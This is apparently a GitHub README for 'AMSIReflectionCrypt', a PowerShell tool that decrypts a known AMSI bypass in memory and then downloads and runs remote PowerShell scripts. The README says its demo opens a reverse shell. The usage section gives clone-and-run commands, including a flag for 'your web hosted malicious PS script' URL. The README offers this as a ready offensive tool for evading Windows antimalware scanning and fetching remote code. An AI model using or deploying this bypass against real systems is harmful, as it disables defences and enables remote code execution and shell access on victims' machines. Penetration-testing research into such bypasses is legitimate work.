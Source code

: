 # AMSIReflectionCrypt
Forcing AMSI Fail by Decrypting 'Matt Graebers one-liner AMSI bypass' in memory [AES-128]
and invoke PowerShell command execution from remote scripts after AMSI is bypassed.

in the example shown, the bypass is used to Invoke a reverse shell after AMSI is bypassed:

![ezgif com-resize (2)](https://user-images.githubusercontent.com/91469978/229790638-09003b42-08cd-4a4f-9a43-db74ee5ff4e9.gif)

# Usage
```
  git clone https://github.com/M0M3NTUM44/AMSIReflectionCrypt.git
  cd AMSIReflectionCrypt
  .\AMSIReflectionCrypt.ps1 -h
```
  -ts  Invoke the TestScript.ps1 from GitHub.
```
.\AMSIReflectionCrypt.ps1 -ts
```
  -u   Full path to your web hosted malicious PS script (Default - TestScript.ps1 from GitHub).
```
.\AMSIReflectionCrypt.ps1 -u https://PATH/TO/script.ps1
```
The TestScript.ps1 file simply types "amsiutils" (flagged string) to the terminal to test if AMSI detection was Bypassed.

# Credits & Resources
..*1. https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
..*2. https://twitter.com/mattifestation
